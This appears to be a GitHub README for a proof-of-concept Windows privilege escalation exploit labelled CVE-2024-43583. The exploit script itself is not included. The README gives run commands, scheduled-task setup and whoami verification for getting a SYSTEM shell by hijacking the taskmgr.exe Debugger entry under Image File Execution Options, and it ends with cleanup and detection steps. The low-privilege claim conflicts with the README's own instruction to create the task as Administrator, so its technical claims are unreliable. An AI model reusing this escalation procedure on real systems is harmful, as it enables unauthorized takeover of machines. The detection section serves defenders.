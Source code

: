 # CVE-2024-43583 - Windows Privilege Escalation Exploit
**Author:** No0B@ckSappi3
**Instagram:**  No0BackSappi3

##  Overview
CVE-2024-43583 is an **elevation of privilege** vulnerability affecting Microsoft's **Winlogon** component. Exploiting this flaw allows a low-privileged user to escalate their privileges to **SYSTEM**, leading to full system compromise.

This proof-of-concept (PoC) leverages **Debugger Hijacking** via the Windows **Image File Execution Options (IFEO)** registry key to replace a legitimate system process with a malicious payload.

## Affected Windows Versions
Windows Versions Affected

Windows 10 (1507 - 22H2) 
Windows 11 (21H2 - 24H2)
Windows Server 2008 SP2 - 2022 

## ⚠️ Disclaimer
> This exploit is for **educational and research purposes only**. Do not use it on unauthorized systems. Misuse of this exploit may be illegal.

---

## Exploit Usage
### **Setup**
Ensure Python is installed on the target system. If not, use the compiled `.exe` version.

### **Run the Exploit**
#### **Option 1: Run Directly from a Low-Privileged User**
```cmd
python poc-43583.py
```

#### **Option 2: Run via Task Scheduler**
1. **Create Scheduled Task:**  (Run as Administrator)
   ```powershell
   schtasks /create /tn "LowPrivExploit" /tr "C:\Path\To\python.exe C:\Path\To\poc-43583.py" /sc once /st 00:00 /ru lowpriv /f
   ```
2. **Run Task:**
   ```powershell
   schtasks /run /tn "LowPrivExploit"
   ```
3. **Trigger the Exploit:** Open Task Manager (`Ctrl + Shift + Esc`). If successful, a SYSTEM shell will appear instead.

### ** Verify Privilege Escalation**
Once the exploit runs, check your privileges:
```cmd
whoami
```
Expected Output:
```
nt authority\system
```

---

## 🛠️ Cleanup
### **Method 1: Use the PoC to Restore Defaults**
Re-run the script and select **option [2]** to remove the hijack.

### **Method 2: Manually Delete the Registry Key**
1. Open **Administrator Command Prompt**.
2. Run:
   ```cmd
   reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskmgr.exe" /f
   ```
3. **Delete the Scheduled Task (if used):**
   ```powershell
   schtasks /delete /tn "LowPrivExploit" /f
   ```

---

## Detection & Mitigation
- **Check for unexpected Debugger keys:**
  ```powershell
  reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options"
  ```
- **Enable Windows Defender Tamper Protection** to prevent registry modifications.
- **Use EDR/SIEM solutions** to detect unauthorized registry changes.

---

## 📝 References
- [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-43583)
- [Exploit Development Guide](https://attack.mitre.org/techniques/T1546/)



